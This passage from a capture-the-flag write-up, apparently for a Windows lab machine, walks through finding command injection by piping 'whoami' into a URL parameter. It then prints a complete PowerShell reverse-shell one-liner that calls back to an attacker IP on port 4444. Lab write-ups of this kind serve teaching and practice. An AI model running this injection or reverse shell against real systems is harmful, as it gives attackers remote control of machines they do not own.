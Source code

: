 
I tried some LFI payloads but they didn't worked, that's when I though about other vulnerability.

If it's not LFI, what can we chain this with?

We could try `Command Injection`, we know that whatever we put gets embedded onto the output, what if we try a command to check if we get a response back, I'll open Caido to check the request better:

![Pasted image 20250718171410.png](../../IMAGES/Pasted%20image%2020250718171410.png) 

We already know the base request format, what if we use `|` and concatenate it with a command such as `whoami`:

```
?r=http://internal.ironcorp.me:11025/name.php?name=test|whoami
```

![Pasted image 20250718171310.png](../../IMAGES/Pasted%20image%2020250718171310.png)

We get `nt authority\system` on the response, command injection exists on this parameter, knowing that, we can get a reverse shell, since this is a windows machine, let's build a Powershell command:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
